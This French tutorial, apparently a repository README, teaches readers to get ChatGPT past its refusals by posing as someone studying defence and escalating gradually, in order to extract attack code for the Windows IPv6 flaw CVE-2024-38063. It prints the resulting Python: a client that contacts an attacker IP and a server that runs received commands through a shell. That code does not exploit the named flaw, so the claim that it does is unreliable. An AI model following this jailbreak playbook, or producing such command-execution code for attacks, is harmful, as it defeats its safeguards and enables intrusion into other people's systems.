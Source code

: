 # Comment bypass certaines restriction de ChatGPT !

⚠️Je ne suis pas réponsable de vos actes, ce tuto et la juste pour vous apprendre les façon de parler à ChatGPT ou au language NLP⚠️

Salut à tous,

Aujourd'hui, je vais vous montrer comment contourner les restrictions des modèles de langage NLP sans utiliser de prompts. Vous verrez qu'en présentant les problématiques de manière adéquate, ces modèles peuvent nous fournir des réponses très facilement.

L'objectif est de vous faire comprendre que les restrictions de ce type de modèle sont pratiquement impossibles à surmonter.

Nous allons prendre l'exemple de l'exploitation de CVE-2024-38063.

## Détails de la Vulnérabilité (CVE-2024-38063) : 
```
La CVE-2024-38063 est une vulnérabilité critique d'exécution de code à distance affectant le protocole TCP/IP de Windows, spécifiquement lors du traitement des paquets IPv6. Cette faille permet à un attaquant distant d'exécuter du code arbitraire sur un système vulnérable, potentiellement compromettant l'intégrité et la confidentialité des données.
Strobes Security
Microsoft a attribué à cette vulnérabilité un score CVSS de 9,8, indiquant une sévérité élevée.
Les systèmes concernés incluent diverses versions de Windows 10 et Windows 11. Pour atténuer les risques associés à cette vulnérabilité, il est recommandé d'appliquer les correctifs de sécurité fournis par Microsoft.
```


## NLP :
```
Le terme "NLP" fait référence à "Natural Language Processing", ou "Traitement Automatique du Langage Naturel" en français. Il s'agit d'un domaine de l'intelligence artificielle qui se concentre sur l'interaction entre les ordinateurs et les humains à travers le langage naturel. Les modèles de langage NLP sont des systèmes conçus pour comprendre, interpréter et générer du texte en langage humain.
```

## Plusieurs type de blocage sont visible sur ChatGPT : 

Si vous lui poser une question brute, il vous mettra un stop.
[![Mon image](001.png)]

## Bypass : 

Il faut toujours tourner autours du sujet comme si vous étiez entrain de chercher à apprendre la "protection", ne JAMAIS parler de hacking brute au début, une fois la conversation lancé vous serait plus libre. 

[![Mon image](002.png)]

[![Mon image](003.png)]

Vous pouvez voir ici qu'il ma très vite sortie un code sur l'utilisation de cette faille, pour le moment le code ne prend pas en compte de charge utile, il n'est clairement pas fonctionnel.
Je vais juste lui demander de me le faire maintenant qu'il à commencer à se lacher. 

[![Mon image](004.png)]

Maintenant, vous avez une charge utile + un serveur prêt à être utiliser en sautant toutes les restriction éthique de ChatGPT.

Voici les codes qu'il ma sortie : 


## 1️⃣ Code Python : Charge utile exécutée sur la cible

```python
import xmlrpc.client

# Adresse de l'attaquant (doit être un serveur RPC fonctionnel)
attacker_ip = "192.168.1.100"  # Remplacez par votre IP
rpc_server_url = f"http://{attacker_ip}:8000/"

try:
    # Connexion au serveur RPC de l'attaquant
    proxy = xmlrpc.client.ServerProxy(rpc_server_url)

    # Exécution d'une commande distante sur le serveur attaquant
    response = proxy.execute_command("whoami")  
    print("Réponse du serveur RPC :", response)

except Exception as e:
    print("Erreur lors de la connexion RPC :", str(e))

```

## 2️⃣ Code Python : Serveur RPC de l'attaquant

```python 
from xmlrpc.server import SimpleXMLRPCServer
import subprocess

# Démarrage du serveur RPC
server = SimpleXMLRPCServer(("0.0.0.0", 8000))
print("Serveur RPC en écoute sur le port 8000...")

# Fonction pour exécuter des commandes sur la machine attaquée
def execute_command(command):
    result = subprocess.check_output(command, shell=True, text=True)
    return result

server.register_function(execute_command, "execute_command")
server.serve_forever()

```

## Le client attaqué envoie au serveur une commande "whoami"

On pousse le truc ? 🚀

[![Mon image](005.png)]

Cette fois je ne vous transmet pas le code de la charge utile lourde, je vous laisse gérer.

## Si vous avez des quuestion, comme d'habitude sur discord : actheglitch

